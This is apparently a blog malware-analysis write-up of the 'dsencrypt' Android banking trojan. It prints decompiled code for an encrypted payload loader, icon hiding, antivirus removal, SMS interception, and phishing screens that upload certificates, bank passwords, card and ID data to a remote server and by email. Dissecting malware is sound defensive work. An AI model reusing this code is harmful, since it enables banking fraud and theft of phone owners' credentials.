




### Diving into dsencrypt - Android malware analysis

### [~$ cd ..](../)

Could a 5-classes Android app be so harmful ? `dsencrypt` says "yes"...

In fact, not exactly. As I opened the [jar](dsencrypt.jar) in JD-GUI, I first saw this:



Besides that, several activities, services and receivers are registered in the [Manifest](AndroidManifest.xml):

> ```xml
> ...
><activity android:name="com.kbstar.kb.android.star.BKMain"/>
><activity android:name="com.kbstar.kb.android.star.OpenMain"/>
><activity android:name="com.kbstar.kb.android.star.V_Dialog" android:screenOrientation="portrait" android:theme="@android:style/Theme.Translucent"/>
><activity android:name="com.kbstar.kb.android.star.KB_Cert_List" android:screenOrientation="portrait"/>
><activity android:name="com.kbstar.kb.android.star.KB_Cert_Psw" android:screenOrientation="portrait" android:windowSoftInputMode="stateAlwaysVisible"/>
><activity android:name="com.kbstar.kb.android.star.KB_Account_info" android:screenOrientation="portrait" android:windowSoftInputMode="stateAlwaysVisible"/>
><activity android:name="com.kbstar.kb.android.star.KB_Account_Psw" android:screenOrientation="portrait" android:windowSoftInputMode="stateAlwaysVisible"/>
><activity android:name="com.kbstar.kb.android.star.KB_Card_Psw" android:screenOrientation="portrait" android:windowSoftInputMode="stateAlwaysVisible"/>
><activity android:name="com.kbstar.kb.android.star.KB_Last" android:screenOrientation="portrait"/>
><activity android:name="com.kbstar.kb.android.star.MainActivity" android:screenOrientation="portrait"/>
> ...
> ```

Quite strange, huh ? 

The first interesting thing I found in the manifest at this time was this line:

> ```xml
><application android:allowBackup="true" android:debuggable="true" android:icon="@drawable/kb_icon1" android:label="@string/app_name" android:name="com.kbstar.kb.android.star.ProxyApp" android:persistent="true" android:theme="@style/AppTheme">
> ```

because `ProxyApp.class` was one of the files I could read.

_NOTE: the decompiled code will sometimes be shown as it is in JD-GUI, and sometimes will be approximated (based on what JD-GUI gives) in order to be more consistent and show a cleaner code_

## ProxyApp

The class extends `Application` and contains a method named `attachBaseContext`. In this method, the application will call a routine named `loadClass` (approximation):

> ```java
>private void loadClass(Context paramContext){
>	String str2 = "/data/data/" + paramContext.getPackageName() + "/";
>	String str1 = str2 + "x.zip";
>	str2 = str2 + "x";
>	try{
>		InputStream in = getAssets().open("ds");
>		int i = in.available();
>		byte[] bytes = new byte[i];
>		in.read(bytes, 0, i);
>		byte[] plain = new DesUtils("gjaoun").decrypt((byte[])bytes);
>		FileOutputStream outputStream = new FileOutputStream(str1);
>		outputStream.write(plain);
>		outputStream.close();
>	}
>	catch (Exception localException){
>		try{
>			DexFile dexFile = (DexFile) Class.forName("dalvik.system.DexFile").getMethod("loadDex", new Class[] { String.class, String.class, Integer.TYPE }).invoke(null, str1, str2, 0);
>			Enumeration enumeration = (dexFile).entries();
>			if (enumeration.hasMoreElements()) {
>				dexFile.loadClass((String) enumeration.nextElement(), paramContext.getClassLoader());
>			}
>			new File(str1).delete();
>			new File(str2).delete();
>		}
>		catch (Exception ignored){}
>		localException.printStackTrace();
>	}
>}
> ```

At this point, it's quite easy to understand why the app seems to be so light! The payload has been encrypted and is unpacked here. Before analyzing what is the decrypted payload, let's take a look at the method `onCreate`:



We can see here that some hidden (marked with @hide) methods are invoked thanks to reflection (done with the helper `InjectFun`). The underlined statement is probably one of the most important, because the malware will use it to load its payload.

Once again, this routine uses reflection in order to invoke `AssetManager.addAssetPath` (approximation):

> ```xml
>Class localClass = Class.forName("android.content.res.AssetManager");
>AssetManager assetManager = (AssetManager)localClass.newInstance();
>localClass.getDeclaredMethod("addAssetPath", new Class[] { String.class }).invoke(assetManager, new Object[] { this.apkFileName });
>Resources resources = getBaseContext().getResources();
>return  Resources.class.getConstructor(localClass, resources.getDisplayMetrics().getClass(), resources.getConfiguration().getClass()).newInstance(assetManager, resources.getDisplayMetrics(), resources.getConfiguration());
> ```

Finally, at the end of `onCreate`, we can find:

> ```java
>localObject1 = (Application)InjectFun.invokeMethod("android.app.LoadedApk", "makeApplication", localObject4, new Class[] { localObject2, localObject1 }, (Object[])localObject5);
>InjectFun.setFieldOjbect("android.app.ActivityThread", "mInitialApplication", localObject3, localObject1);
>((Application)localObject1).onCreate();
> ```

The new APK is loaded, and starts doing bad things...

## The encrypted payload

Once decrypted , I found the expected zip archive with the [classes.dex](classes.dex) inside. Once again, `dex2jar` gave me the [jar](payload.jar).



## What does the malware do ?

Once launched in the emulator, the program asks for admin privileges, display a short message and crashes:



However, the icon is then hidden, suggesting that the app hasn't been installed:


It's done in the class `MainA` (or `MainActivity`), where we can find this routine:

> ```java
>private void HideIcon(){
>	getPackageManager().setComponentEnabledSetting(getComponentName(), 2, 1);
>}
> ```

Let's analyse the routine `onCreate` (approximation):

> ```java
>protected void onCreate(Bundle paramBundle){
>	super.onCreate(paramBundle);
>	getWindow().requestFeature(1);
>	setContentView(2130903040);
>	this.pm = getPackageManager();
>	File file = new File(this.url.getSDPath1() + "/temp");
>	if (!file.exists()) {
>		file.mkdirs();
>	}
>	this.url.deleteFoder("args.txt");
>	new Thread(){
>		public void run(){
>			MainA.this.zipCert();
>		}
>	}.start();
>	startService(new Intent(this, uploadPhone.class));
>	startService(new Intent(this, SoftService.class));
>	startService(new Intent(this, UninstallerService.class));
>	startService(new Intent(this, uploadContentService.class));
>	startService(new Intent(this, autoRunService.class));
>	this.policyManager = ((DevicePolicyManager)getSystemService("device_policy"));
>	this.componentName = new ComponentName(this, MDAR.class);
>	if (!this.policyManager.isAdminActive(this.componentName)) {
>		getAdmin();
>	}
>}
> ```

First interesting thing is that the app will create a directory named `temp`, where exfiltrated data will be put. Indeed, here is the routine `zipCert̀`:

> ```java
>private void zipCert(){
>	try{
>		if (NPUtil.isNPKIExists()){
>			String str = ((TelephonyManager)getSystemService("phone")).getLine1Number() + "_npki.zip";
>			ZipUtil.ZipFolder(NPUtil.getFolder.toString() + "/", this.url.getSDPath() + "/" + str);
>		}
>	}
>	catch (Exception localException){
>		localException.printStackTrace();
>	}
>}
> ```

where `getSDPath` actually returns the path to `temp`.

Second interesting thing: many evil services are launched, and finally, administration privileges are requested as we saw.

### UploadPhone Service

The `onStartCommand` is as follows in JD-GUI:

> ```java
>public int onStartCommand(Intent paramIntent, int paramInt1, int paramInt2){
>	this.pm = getPackageManager();
>	new Thread(new Runnable(){
>		public void run(){
>			uploadPhone.this.listAppcations = uploadPhone.this.pm.getInstalledApplications(8192);
>			Object localObject = uploadPhone.this.getSoftName(uploadPhone.this.pm);
>			String str1 = Tool.GetUrlTool();
>			Url localUrl = new Url();
>			String str2 = "http://" + str1 + "/phon/youxi.php";
>			str1 = ((TelephonyManager)uploadPhone.this.getSystemService("phone")).getLine1Number();
>			ArrayList localArrayList = new ArrayList();
>			localArrayList.add(new BasicNameValuePair("phone", str1));
>			localArrayList.add(new BasicNameValuePair("softname", (String)localObject));
>			Tool.postHttpConnectionCommon(str2, localArrayList);
>			Tool.postHttpFile(uploadPhone.this.getApplicationContext());
>			try{
>				ZipUtil.ZipFolder(localUrl.getSDPath(), localUrl.getSDPath1() + "/all.zip");
>				localObject = new File(localUrl.getSDPath1() + "/all.zip");
>				Tool.postHttpFile1(uploadPhone.this.getApplicationContext(), (File)localObject, "all");
>				GMailSend.MailSend(str1, "npki", str1 + "_npki.zip", localUrl.getSDPath());
>				uploadPhone.this.uploadTel();
>				return;
>			}
>			catch (Exception localException){...}
>		}
>	}).start();
>	return paramInt2;
>}
> ``` 

Once again, we find the routine `getSDPath`, and we can here deduce that the zip archive previously created is uploaded on a server (renamed `all.zip`, and sent by email)
**The malware tries to exfiltrate signature certificates.**

Last thing: just before the `return` statement, we can see a call to `uploadTel`. By taking a look at this routine, we can see that the app tries to get contact informations, and exfiltrate them.

### uploadContentService

This service is quite simple: it only schedules the exfiltration.

> ```
>public void onCreate(){
>	super.onCreate();
>	Log.v("clService", "onCreate");
>	this.timer = new Timer();
>	this.mTimerTask = new TimerTask(){
>		public void run(){
>			uploadContentService.this.uploadContent();
>		}
>	};
>	this.timer.schedule(this.mTimerTask, 120000L, 120000L);
>}
> ```

The routine `uploadContent` compresses the content of the directory `temp`, and uploads it

### autoRunService

This service is quite similar to the  previous one. A task is scheduled and its job is to upload sensitive content (approximation):

> ```java
>if (NPUtil.isNPKIExists()){
>	this.pm = getPackageManager();
>	this.listAppcations = this.pm.getInstalledApplications(8192);
>	String softName = getSoftName(this.pm);
>	String[] appNames;
>	if (softName.length() > 0){
>		appNames = softName.split(",");
>		for(String appName :appNames){
>			if (!this.u.isTrue(appName).booleanValue()){
>				bind();
>				Intent localIntent = new Intent(this, MainActivity.class);
>				SharedPreferences.Editor localEditor = getSharedPreferences("data", 0).edit();
>				localEditor.clear();
>				localEditor.commit();
>				localEditor.putString("item", appName);
>				localEditor.commit();
>				localIntent.addFlags(268435456);
>				startActivity(localIntent);
>			}
>		}
>	}
>}
> ```

The routine `softName` uses the `PackageManager` to get installed applications and checks if Banking app are installed. It returns a concatenation of app names if they are installed.

### SoftService

First thing I saw as I opened the decompiled class was a routine named `bankHijack`! Okay then, we can easily guess that bad stuffs are performed here...
Once again it's a scheduled task, calling the routine `bankHijack`, which is unfortunately not properly decompiled.

However, with the bytecode, we can make some deductions:

> ```
>// Byte code:
>//   0: aload_0
>//   1: monitorenter
>//   2: aload_0
>//   3: invokevirtual 38	com/kbstar/kb/android/services/SoftService:getApplicationContext	()Landroid/content/Context;
>//   6: ldc 40
>//   8: invokevirtual 46	android/content/Context:getSystemService	(Ljava/lang/String;)Ljava/lang/Object;
>//   11: checkcast 48	android/app/ActivityManager
>//   14: iconst_1
>//   15: invokevirtual 52	android/app/ActivityManager:getRunningTasks	(I)Ljava/util/List;
>//   18: astore_3
>//   19: aload_3
>//   20: invokeinterface 58 1 0
>//   25: ifle +32 -> 57
>//   28: aload_3
>//   29: iconst_0
>//   30: invokeinterface 62 2 0
>//   35: checkcast 64	android/app/ActivityManager$RunningTaskInfo
>//   38: getfield 68	android/app/ActivityManager$RunningTaskInfo:topActivity	Landroid/content/ComponentName;
>//   41: invokevirtual 74	android/content/ComponentName:getPackageName	()Ljava/lang/String;
>//   44: astore_3
>//   45: iconst_0
>//   46: istore_1
>//   47: getstatic 80	com/kbstar/kb/android/star/AppContacts:BK_ARRAY_LIST	[Ljava/lang/String;
>//   50: arraylength
>//   51: istore_2
>//   52: iload_1
>//   53: iload_2
>//   54: if_icmplt +6 -> 60
>//   57: aload_0
>//   58: monitorexit
>//   59: return
>//   60: aload_3
>//   61: getstatic 80	com/kbstar/kb/android/star/AppContacts:BK_ARRAY_LIST	[Ljava/lang/String;
>//   64: iload_1
>//   65: aaload
>//   66: invokevirtual 86	java/lang/String:equals	(Ljava/lang/Object;)Z
>//   69: ifeq +100 -> 169
>//   72: aload_0
>//   73: ldc 88
>//   75: iconst_0
>//   76: invokevirtual 92	com/kbstar/kb/android/services/SoftService:getSharedPreferences	(Ljava/lang/String;I)Landroid/content/SharedPreferences;
>//   79: invokeinterface 98 1 0
>//   84: astore 4
>//   86: aload 4
>//   88: invokeinterface 103 1 0
>//   93: pop
>//   94: aload 4
>//   96: invokeinterface 107 1 0
>//   101: pop
>//   102: aload 4
>//   104: ldc 109
>//   106: getstatic 112	com/kbstar/kb/android/star/AppContacts:BK_CALL_LIST	[Ljava/lang/String;
>//   109: iload_1
>//   110: aaload
>//   111: invokeinterface 116 3 0
>//   116: pop
>//   117: aload 4
>//   119: invokeinterface 107 1 0
>//   124: pop
>//   125: new 70	android/content/ComponentName
>//   128: dup
>//   129: ldc 118
>//   131: ldc 120
>//   133: invokespecial 123	android/content/ComponentName:<init>	(Ljava/lang/String;Ljava/lang/String;)V
>//   136: astore 4
>//   138: new 125	android/content/Intent
>//   141: dup
>//   142: invokespecial 126	android/content/Intent:<init>	()V
>//   145: astore 5
>//   147: aload 5
>//   149: aload 4
>//   151: invokevirtual 130	android/content/Intent:setComponent	(Landroid/content/ComponentName;)Landroid/content/Intent;
>//   154: pop
>//   155: aload 5
>//   157: ldc -125
>//   159: invokevirtual 135	android/content/Intent:addFlags	(I)Landroid/content/Intent;
>//   162: pop
>//   163: aload_0
>//   164: aload 5
>//   166: invokevirtual 139	com/kbstar/kb/android/services/SoftService:startActivity	(Landroid/content/Intent;)V
>//   169: iload_1
>//   170: iconst_1
>//   171: iadd
>//   172: istore_1
>//   173: goto -126 -> 47
>//   176: astore_3
>//   177: aload_0
>//   178: monitorexit
>//   179: aload_3
>//   180: athrow
> ```

The array `BK_ARRAY_LIST` is as follows:

> ```java
>public static String[] BK_ARRAY_LIST = {
>	"com.shinhan.sbanking",
>	"com.ibk.neobanking",
>	"com.hanabank.ebk.channel.android.hananbank",
>	"nh.smart",
>	"com.webcash.wooribank",
>	"com.example.mytest" };
> ```

The app tries to poll the foreground activity and probably compares the package name against each item in the array (line <66>). An `Intent` is then built with
a new `ComponentName`, probably with the current string.

### UninstallerService

Finally, this last service is once again a scheduled task, where the app will try to uninstall AhnLab V3 Mobile Plus 2.0. A call to `getSoftName` is done in the routine `run` of the thread (approximation):

> ```
>private void getSoftName(){
>	PackageManager localPackageManager = getPackageManager();
>	List<ApplicationInfo> applicationInfos = localPackageManager.getInstalledApplications(8192);
>	for (int i = 0;i < applicationInfos.size();i++){
>		ApplicationInfo applicationInfo = applicationInfos.get(i);
>		if (((String)applicationInfo.loadLabel(localPackageManager)).equalsIgnoreCase(AppContacts.aname)){
>			Intent intent = new Intent("android.intent.action.DELETE", Uri.parse("package:" + ((ApplicationInfo)applicationInfo).packageName));
>			intent.addFlags(268435456);
>			startActivity(intent);
>		}
>	}
>}
> ```

where the constant `AppContacts.aname` is **AhnLab V3 Mobile Plus 2.0**

## openActivityReceiver

A receiver named `openActivityReceiver` is registered in the manifest, and has a significant role for this malware:

> ```xml
><receiver android:enabled="true" android:exported="true" android:name="com.kbstar.kb.android.receiver.openActivityReceiver">
>	<intent-filter android:priority="2147483647">
>	<action android:name="android.intent.action.BOOT_COMPLETED"/>
>	<action android:name="android.provider.Telephony.SMS_RECEIVED"/>
>	<category android:name="android.intent.category.LAUNCHER"/>
></intent-filter>
></receiver>
> ```

The receiver listen for incoming SMS, and exfiltrate them. The code shown by JD-GUI is quite messy, but the exfiltration is obvious (approximation):

> ```java
>if (paramIntent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")){
>	Object[] pdus = (Object[])paramIntent.getExtras().get("pdus");
>	if (i < pdus.length) {
>		SmsMessage smsMessage = SmsMessage.createFromPdu((byte[])pdus[i]);
>		this.sender = smsMessage.getOriginatingAddress();
>		this.content = smsMessage.getMessageBody();
>	}
>	this.tel = ((TelephonyManager)paramContext.getSystemService("phone")).getLine1Number();
>	new Thread(){
>		public void run(){
>			Tool.postHttpConnection(openActivityReceiver.this.u, openActivityReceiver.this.sender, openActivityReceiver.this.tel, openActivityReceiver.this.content);
>			}
>	}.start();
>	String[] parts = this.content.split("-");
>	...
>	if (this.url.getUrl("ak40").equalsIgnoreCase("1")){
>		abortBroadcast();
>		new Thread() {
>			public void run(){
>				GMailSend.MailSend1(openActivityReceiver.this.tel, openActivityReceiver.this.content);
>			}
>		}.start();
>	}
>	if (parts[0].equalsIgnoreCase("wokm")){
>		Intent intent = new Intent(paramContext, ABK_SENDSMS.class);
>		intent.putExtra("myArgs", parts[1]);
>		paramContext.startService(intent);
>	}
>   ...
>}
> ```

There are many options for `parts[0]`, but the last one deserves to be noticed, because it allows also the attacker to send SMS. 

## Attack the bank

Finally, the last part of this analysis will focus on the main objective of the malware: steal banking data.

### Browsing through activities

In the class `MainActivity`, a dialog is displayed, and if a click is done on the positive button, a new `Activity` in launched (approximiation):

> ```java
>private void showDialog(){
>	AlertDialog.Builder localBuilder = new AlertDialog.Builder(this);
>	localBuilder.setTitle(getResources().getString(2131361795));
>	localBuilder.setMessage(getResources().getString(2131361820));
>	localBuilder.setPositiveButton(getResources().getString(2131361804), new DialogInterface.OnClickListener(){
>		public void onClick(DialogInterface paramAnonymousDialogInterface, int paramAnonymousInt){
>			new Thread(){
>				public void run(){
>					try{
>						Thread.sleep(2000L);
>						if (!this.url.isTrue(this.page_type).booleanValue()){
>							Intent localIntent = new Intent(MainActivity.this, KB_Cert_List.class);
>							localIntent.putExtra("Bank", bank);
>							startActivity(localIntent);
>							return;
>						}
>						Intent localIntent = new Intent(MainActivity.this, KB_Last.class);
>						localIntent.putExtra("Bank", bank);
>						startActivity(localIntent);
>					}
>					catch (InterruptedException localInterruptedException){
>						localInterruptedException.printStackTrace();
>					}
>				}
>			}.start();
>		}
>	});
>	localBuilder.create().show();
>}
> ```

_`bank` is a wrapper for banking data_

If the user is redirected to `KB_Cert_List`, a list of certificates is displayed, where a another `Activity` could be called:

> ```
>private void initView(){
>	this.certList = new ArrayList();
>	this.head_menu_left_btn = ((ImageView)findViewById(2131296258));
>	this.hana_general_listview = ((ListView)findViewById(2131296310));
>	this.head_menu_left_btn.setOnClickListener(this);
>	this.hana_general_listview.setOnItemClickListener(new AdapterView.OnItemClickListener(){
>		public void onItemClick(AdapterView<?> paramAnonymousAdapterView, View paramAnonymousView, int paramAnonymousInt, long paramAnonymousLong){
>			Intent intent = new Intent(KB_Cert_List.this, KB_Cert_Psw.class);
>			paramAnonymousView = (Bank)bankList.get(paramAnonymousInt);
>			paramAnonymousView.setFileName(.bank.getFileName());
>			paramAnonymousView.setBkType(getSharedPreferences("data", 0).getString("item", null));
>			intent.putExtra("Bank", paramAnonymousView);
>			startActivity(intent);
>		}
>	});
>}
> ```

Once again, in `KB_Cert_Psw`, the user could be redirected to another activity ( `KB_Account_Info` ) if the password is correct:

> ```java
>private Handler handler = new Handler(){
>	public void handleMessage(Message paramAnonymousMessage){
>		super.handleMessage(paramAnonymousMessage);
>		pd.dismiss();
>		et_cert_psw.setText("");
>		Intent intent = new Intent(KB_Cert_Psw.this, KB_Account_info.class);
>		intent.putExtra("Bank", bank);
>		startActivity(intent);
>	}
>};
> ```

This `handler` is then used in a routine named `validation`, comparing a password stored in preferences, and the submitted one.
If passwords match  `KB_Account_Info` is started and the scenario is the same: the user enters its credentials and click on `Confirm`. A new Activity is then launched,
named `KB_Card_Psw`...

### The Holy Grail

This class contains a routine `validation` too, where we can find:

> ```
>sb.append("clientId:" + bank.getClientId());
>sb.append(" ****  ");
>sb.append("accountNam:" + bank.getAccountName());
>sb.append(" ****  ");
>sb.append("accountNo:" + bank.getAccountNo());
>sb.append(" ****  ");
>sb.append("accountPsw:" + bank.getAccountPsw());
>sb.append(" ****  ");
>sb.append("fileName:" + bank.getFileName());
>sb.append(" ****  ");
>sb.append("bkType:" + bank.getBkType());
>sb.append(" ****  ");
>sb.append("card:" + bank.getCard());
>sb.append(" ****  ");
>sb.append("certPsw:" + bank.getCertPsw());
>sb.append(" ****  ");
>sb.append("personIdFirst:" + bank.getPersonIdFirst());
>sb.append(" ****  ");
>sb.append("personIdSecond:" + bank.getPersonIdSecond());
>sb.append(" ****  ");
>sb.append("transPsw:" + bank.getTransPsw());
>long l = System.currentTimeMillis();
>file = (bank.getBkType() + "_" + l);
>url.write(file + ".txt", sb.toString());
>try{
>	ZipUtil.ZipFolder(url.getSDPath() + "/" + file + ".txt", url.getSDPath() + "/" + file + ".zip");
>	File zip = new File(url.getSDPath() + "/" + file + ".zip");
>	Tool.postHttpFile1(getApplicationContext(), zip, file);
>	GMailSend.MailSend(tel, sb.toString(), file + ".zip", urlgetSDPath());
>	localMessage.what = 201;
>	KB_Card_Psw.this.handler.sendMessage(localMessage);
>}
>catch (Exception localException){
>	localException.printStackTrace();
>}
> ```

## Resources

## References
The report of FireEye about this malware https://www.fireeye.com/blog/threat-research/2014/06/what-are-you-doing-dsencrypt-malware.html
